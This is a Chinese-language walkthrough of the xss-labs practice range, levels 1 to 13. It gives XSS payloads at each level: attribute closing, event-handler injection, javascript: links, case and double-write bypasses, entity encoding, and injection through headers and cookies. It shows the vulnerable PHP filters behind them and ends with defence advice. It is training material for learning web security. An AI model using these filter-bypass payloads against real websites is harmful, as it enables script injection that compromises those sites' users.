


# 当堂XSS-labs 挑战

## xss-labs练习

#### 分享人：tonglinggejimo

---

## Level 1：最基础的XSS注入

---


### Level 1 - 直接注入

没有任何防护，直接alert任意字符即可

```js
?name=<script>alert(1)</script>
```

直接在URL参数中注入JavaScript代码，浏览器会直接执行。

---


## Level 2：HTML属性闭合技巧

---


## Level 2 - 分析

首先尝试直接alert发现并不能注入，查看代码，找到提交表单的地方，发现输入的内容是一个文本框的value的值，可以选择把input标签闭合掉



---


### Level 2 - 解决方案

使用`">`闭合掉前面的`"<`即可alert

```js
"><script>alert(1)</script>
```

这种攻击利用了HTML属性边界的闭合，将我们的payload注入到了DOM中。

---


## Level 3：HTML特殊字符转义绕过

---


### Level 3 - 问题分析

尝试之前的payload发现输入被转义：


特殊字符被转义了，需要寻找绕过方法，可以尝试使用`onclick`事件处理程序。

---


### Level 3 - 绕过方法

```js
'onclick=alert(1)
```


发现多了一个单引号，加上闭合：

```js
'onclick='alert(1)
```

输入后再点击表单即可通过。

---


### 其他可用的事件处理程序

还可以尝试其他事件处理程序：
- `'onContextMenu='alert(1)` - 然后右键表单
- `'onMouseOver='alert(1)` - 鼠标移动到表单位置
- 还有许多其他事件可以利用

---


### Level 3 - 源码分析

查看源代码发现确实使用了`htmlspecialchars`将输入的内容转义：

```php
<?php 
// 源码片段
$str = $_GET["name"];
echo "<input type='text' value='".$str."'>";
?>
```

`htmlspecialchars`函数会转换特殊字符为HTML实体，但没有过滤事件处理程序。

---


### htmlspecialchars 函数转换表

| 字符 | 替换后 |
| :----: | :----: |
| `&` (& 符号) | `&amp;` |
| `"` (双引号) | `&quot;` |
| `'` (单引号) | `&#039;` |
| `<` (小于) | `&lt;` |
| `>` (大于) | `&gt;` |

- 这个函数可以有效防止基本的XSS攻击
- 但无法阻止事件处理程序的注入
- 重点在于过滤不完全或不当

---


## Level 4：事件处理程序注入

---


### Level 4 - 分析

我们随便输入一段内容和xss注入的代码后查看源代码，发现符号被转义：


---


### Level 4 - 解决方案

与上一道题类似，我们尝试使用事件处理程序，将单引号改成双引号：

```js
"onclick="alert(1)
```

成功过关！

事件处理程序注入是一种常见的XSS绕过技术，当特殊字符被过滤但事件没有被过滤时特别有效。

---


## Level 5：多重过滤绕过

---


### Level 5 - 分析

按照之前的步骤，发现闭合方式是双引号：


但尝试`"onclick="alert(1)`发现被过滤：


---


### Level 5 - 解决方案

试试大小写绕过发现也被ban了，这时我们可以尝试插入一个新的标签并利用JavaScript伪协议：

```js
"> <a href=javascript:alert()>xxx</a> <"
```

---


### JavaScript伪协议

伪协议不同于因特网上所真实存在的协议（如http://，https://，ftp://），而是为关联应用程序而使用的：

- `data:` - 用base64编码在浏览器端输出二进制文件
- `javascript:` - 执行JavaScript代码

我们可以在浏览地址栏里输入"javascript:alert('JS!');"，点转到后会发现，实际上是把javascript:后面的代码当JavaScript来执行，并将结果值返回给当前页面。

---


### Level 5 - 源码分析

```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level5.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

`strtolower`函数将所有字母转为小写，这就是为什么大小写绕过不起作用。

---


## Level 6：大小写绕过技术

---


### Level 6 - 分析

尝试上一道题的payload：


发现href中的hr和ef被隔开了，尝试大小写绕过：

```js
"> <a hRef=javascript:alert()>xxx</a> <"
or
"oNclick="alert(1)
```

这两种方法都可以通过。

---


## Level 6 - 源码分析

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level6.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

这里没有使用`strtolower`将所有字符转换成小写，所以可以用大小写绕过。

---


## Level 7：双写绕过技术

---


## Level 7 - 问题分析

尝试`"oNclick="alert(1)`但没有成功：


---


## Level 7 - 解决方案

尝试双写绕过技术：

```js
"ooNnclick="alert(1)
```

或者：

```js
"> <a hrhrefef=javascriscriptpt:alert()>xxx</a> <"
```

这种方法能成功绕过过滤，因为过滤器只会删除一次匹配的字符串。

---


## Level 7 - 源码分析

```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level7.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

这里使用了`str_replace`直接删除敏感字符串，而不是替换为其他内容，所以双写可以绕过。

---


## Level 8：HTML字符实体编码绕过

---


### Level 8 - 问题分析

使用123456尝试后查看源码：


---


发现我们所输入的会变成友情链接的链接，尝试使用JavaScript伪协议：

```js
1"javascript:alert()"
```

结果：


---


## Level 8 - 解决方案

我们发现引号和JavaScript字符被过滤或替换，将payload`javascript:alert(1);`进行[HTML字符实体转换](https://www.qqxiuzi.cn/bianma/zifushiti.php)：

```plaintext
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#59;
```

这种方法可以绕过基于字符串匹配的过滤器。

---


### HTML字符实体编码

字符实体是用一个编号写入HTML代码中来代替一个字符，浏览器会将这个编号解析还原为字符。

主要用途：
1. 解决HTML代码编写中的问题（如显示<>符号）
2. 在特定编码的网页中显示其他语言的字符

例如：
- 小于号：`&lt;` 或 `&#60;`
- 大于号：`&gt;` 或 `&#62;`

---


>字符实体是用一个编号写入HTML代码中来代替一个字符，在使用浏览器访问网页时会将这个编号解析还原为字符以供阅读。
>这么做的目的主要有两个：  
>１、解决HTML代码编写中的一些问题。例如需要在网页上显示小于号（<）和大于号（>），由于它们是HTML的预留标签，可能会被误解析。这时就需要将小于号和大于号写成字符实体：  
>小于号这样写：&lt; 或 &#60;  
>大于号这样写：&gt; 或 &#62;  
>前面的写法称为实体名称，后面的写法则是实体编号。[ISO-8859-1字符集](https://www.qqxiuzi.cn/wz/zixun/1681.htm)（西欧语言）中两百多个字符设定了实体名称，而对于其它所有字符都可以用实体编号来代替。  
>２、网页编码采用了特定语言的编码，却需要显示来自其它语言的字符。例如，网页编码采用了西欧语言ISO-8859-1，却要在网页中显示中文，这时必须将中文字符以实体形式写入HTML代码中。

---


## Level 9：复合条件绕过

---


### Level 9 - 问题分析

输入123456发现提示"您的链接不合法"：


---


查看源码：

```php
<?php 
// 部分源码
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
}
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
?>
```

---


## Level 9 - 解决方案

发现判断要求一定要包括`http://`这个完整的字符串，同时也过滤了很多xss有关的字符串，使用level 8一样的payload并加上`//http://`：

```plaintext
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#59;//http://
```

这样既满足了包含"http://"的条件，又使用了实体编码绕过过滤。

---


## Level 10-13：高级XSS技巧

---


## Level 10 - 隐藏表单域

进入靶机后发现变化，没有输入框存在：


使用F12开发者工具，将`hidden`改成`text`后会发现出现三个文本框：


然后在前端更改使其alert即可：


---


## Level 11 - HTTP Referer注入

与Level 10类似，但可以通过HTTP Referer头进行注入：


使用以下Payload：

```js
" type="text" onclick="alert(1)
```

---


## Level 12 - User-Agent注入

在User-Agent头中注入XSS payload：


这个级别教会我们HTTP头部也可能成为XSS攻击的载体。

---


## Level 13 - Cookie注入

类似于之前的方法，这次在Cookie中注入：



---


## XSS防御的最佳实践

> "安全不是产品，而是过程。XSS防御需要多层次的安全措施，包括输入验证、输出编码、内容安全策略(CSP)和安全Cookie设置等。作为开发者，我们有责任了解这些攻击方式，以构建更安全的Web应用。"

---


## 参考资料

- [XSS攻击绕过过滤方法大全（约100种）](https://www.fujieace.com/penetration-test/xss-100.html)
- [绕过XSS过滤姿势总结](https://www.cnblogs.com/zha0gongz1/p/12732356.html)
- [XSS————XSS绕过Bypass的各种各样姿势](https://blog.csdn.net/Fly_hps/article/details/79959983)
- [xss-labs 靶场详细攻略（附常用payload）](https://www.freebuf.com/articles/web/338123.html)